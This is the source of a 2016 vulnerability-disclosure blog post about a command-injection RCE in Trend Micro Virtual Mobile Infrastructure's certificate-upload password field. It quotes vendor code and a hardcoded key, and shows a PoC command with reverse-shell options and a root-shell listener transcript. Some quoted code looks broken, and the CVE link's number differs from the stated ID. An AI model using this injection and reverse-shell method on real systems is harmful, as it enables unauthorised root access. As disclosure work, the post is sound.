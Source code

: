 ```yaml
---
layout: post
title:  "Trend Micro Bug Hunting - Part III"
date:   2016-10-08 07:00:00
author: qkaiser
excerpt: |
    Trend Micro Virtual Mobile Infrastructure is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of VMI to gain remote command execution with root privileges.
comments: true
categories: pentesting trendmicro
---
```



Trend Micro Virtual Mobile Infrastructure is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of VMI to gain remote command execution with root privileges.

From Trend Micro documentation:

> Trend Micro Virtual Mobile Infrastructure is a service that hosts independent workspaces for every user. A user workspace is based on Android operating system, which is accessible via Virtual Mobile Infrastructure mobile client application installed on an Android, iOS or Windows mobile device. Using the mobile client application, users can access the same mobile environment that includes all their applications and data from any location, without being tied to a single mobile device. The mobile client application preserves the original Android user experience by providing all the Android features and their controls to the user.

I recommend anyone running Virtual Mobile Infrastructure to update to version 5.1, available at the following location:

*  [Virtual Mobile Infrastructure 5.1](http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4968&lang_loc=1)

Trend Micro Advisory is available on their latest security bulletin: [Security Bulletin: Trend Micro Virtual Mobile Infrastructure (VMI) Remote Code Execution Vulnerability](https://success.trendmicro.com/solution/1115411)

#### Affected Versions

* Trend Micro Virtual Mobile Infrastructure up to version 5.0

### Authenticated RCE - Technical Description

The administration interface provides a way for administrators to upload certificates by going to Administration > Certificate Management. The interface uploads a certificate file then sends a reference to the uploaded certificate and the password to unlock that certificate.

To understand how everything pans out, you first have to understand how VMI server works.

The request is handled by the following Django code in ```vmi/manager/configuration/views.py```. We can see that the password is decrypted using a hardcoded key (```#$vmi4trend```) using Blowfish with PKCS7 padding, then a call to ```sendAndRecvCmd``` is made with the certificate filename and password as parameters.

{% highlight python %}
class SaveIdentifyView(APIView):
  def post(self, request):
    try:
      pw = decode_with_hex_bf_pkcs7(VMI.JS_ENCRYPTION_MAGIC_CODE, request.DATA['password'])
      file_name = request.DATA['filename']
      (ret, all) = sendAndRecvCmd(CMD.CMD_IMPORT_IDENTIFY_CLIENT_PFX, filename = file_name, password = pw)
      data = { }
      data['fail'] = len(ret)
      data['total'] = all
      desc = audit_log[AuditLogType.CERTIFICATE_MANAGEMENT]
      admin = request.user
      setAuditLog(desc, AuditLogType.CERTIFICATE_MANAGEMENT, admin)
      return generalJsonResponse(status.HTTP_200_OK, ErrorCode.SUCCESS, ret, data)
    except Exception:
      e = None
      logger.error(str(e))
      return generalJsonResponse(status.HTTP_400_BAD_REQUEST, ErrorCode.FAILURE)
{% endhighlight %}

The ```sendAndRecvCmd``` function is defined in ```vmi/manager/engine/api.py```. This function sends data to the local Redis server. The data being sent is composed of a command identifier and parameters to be used with that command. On launch, the server register a bunch of redis worker that listens for data being sent to Redis. Each worker will decide to execute a command based on the command identifier.

{% highlight python %}
class BaseCmd(object):

  def sendAndReceive(cls, cmd):
    return BaseCmd.sendAndReceiveEx(cmd, get_redis())
  sendAndReceive = classmethod(sendAndReceive)

  def sendAndReceiveEx(cls, cmd, redis):
    cmd.ret_addr = 'vmi_ret_addr_%d' % id(cmd)
    key = CMD.get_queue(cmd.cmd)
    redis.rpush(key, jsonpickle.encode(cmd))
    popped = redis.blpop(cmd.ret_addr, settings.VMIM['execute_cmd_timeout'])
    if popped is not None:
      return jsonpickle.decode(popped[1])
    logger.warn('timeout for cmd: %s' % jsonpickle.encode(cmd))
  sendAndReceiveEx = classmethod(sendAndReceiveEx)

  def send(cls, cmd):
    BaseCmd.sendEx(cmd, get_redis())
  send = classmethod(send)

  def sendEx(cls, cmd, redis):
    cmd.ret_addr = None
    redis.rpush(CMD.get_queue(cmd.cmd), jsonpickle.encode(cmd))
    sendEx = classmethod(sendEx)
    cmd = 0
    ret_addr = None

def sendAndRecvCmd(cmd, **kargs):
    return BaseCmd.sendAndReceive(GeneralCmd(cmd, **None))
{% endhighlight %}

The worker that receives the command is ```/vmi/manager/engine/management/commands/apns_worker.py```.

As we can see in the excerpt below, the password parameter is not sanitized and directly fed to an openssl command line. This can be exploited by injecting system commands into the password field to gain remote command execution.

{% highlight python %}
def handle_certificate(self, pfx_file, password):
  if os.path.exists(pfx_file):
    cmd = "openssl pkcs12 -in '%s' -clcerts -out %s -passin pass:%s -passout pass:" % (pfx_file, self.cert_tmp, password)
    (status, result) = commands.getstatusoutput(cmd)
{% endhighlight %}


I wrote the initial proof-of-concept using Python. You can get the code from [here]({{site.url}}assets/exploit_vmi.py).

```
python exploit.py --rhost vmi --rport 8443 --lhost attacker --lport 4444 --username admin --password admin
[+] Login to https://vmi:8443/
[+] Successfully logged in.
[+] Uploading vmi.pfx to the server ...
[+] File uploaded successfully (7283f4f2-ae5a-4683-957f-348418a10c67.pfx)
[+] Sending payload ...
```

And here goes your root shell :)

```
nc -lvp 4444
listening on [any] 4444 ...
bash: no job control in this shell
[root@localhost /]# whoami
root
[root@localhost /]# pwd
/
[root@localhost /]# 
```


### Conclusion

This is a nice example of a bug that only code review could have catched. First, the password has to be properly decrypted to even reach the `sendAndRcv` call which means it has to be properly encrypted in the first place. Nothing that tools like Burp or Zap could have picked up. Then this all redis worker path could have prevented proper identification of the bug.

Once again, Trend Micro vulnerability team was great in handling this coordinated disclosure.


### Disclosure Timeline

* **2016-05-11**: Advisory sent to Trend Micro 
* **2016-05-11**: Trend Micro acknowledge the issue
* **2016-05-20**: Trend Micro provides a planning for the fix
* **2016-10-08**: Trend Micro released a patch

### CVE Identifier

* [CVE-2016-6270](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2016-5270) - Authenticated remote code execution by exploiting the vulnerability in which ```openssl``` is used directly with untrusted input within ```apns_worker.py```

### Exploit

* [Python PoC]({{site.url}}assets/exploit_vmi.py)
* Metasploit module - Will push it by this evening :)
